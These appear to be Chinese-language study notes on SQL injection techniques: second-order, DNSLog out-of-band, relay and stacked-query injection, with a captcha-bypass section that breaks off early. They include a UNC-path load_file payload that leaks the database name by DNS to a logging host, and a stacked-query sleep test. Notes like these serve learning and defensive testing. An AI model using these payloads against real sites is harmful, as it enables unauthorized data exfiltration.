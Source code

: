 

## 二次注入

![image-20230415161204784](E:\AppData\Roaming\Typora\typora-user-images\image-20230415161204784.png)

需要知道源码，需要人工判断与注入

先输入一个危险的语句到数据库，没有被检测到，之后触发使用这个输入的危险语句，从而触发二次注入



## DNSLog带外注入

利用UNC路径去访问服务器

需要高权限（文件读写权限）

连接ceye.io平台/dnslog.cn

可用工具：github.com/ADOOO/DnslogSqlinj

sqlmap的tamper目录：插件，可自加

```
load_file(concat('\\\\',select hex(database()),'.xxx\\test'))--+
\\\\转义后为\\
```





## 中转注入

通过运行脚本，脚本中访问url页面并进行注入，并获得返回的页面

如sqlmap注入某文件，该文件又是个攻击其他网站的脚本，最终sqlmap产生的payload连到了攻击其他网站的url上，实现中转注入



## 堆叠查询注入

两个查询语句在一行，分号隔开

某些数据库恶意，如MySQL

验证：?id=1';select sleep(3)--+

常出现在SQLserver



## 验证码绕过

1.前端验证

2.后端验证

​	1）页面不刷新，验证码就不变

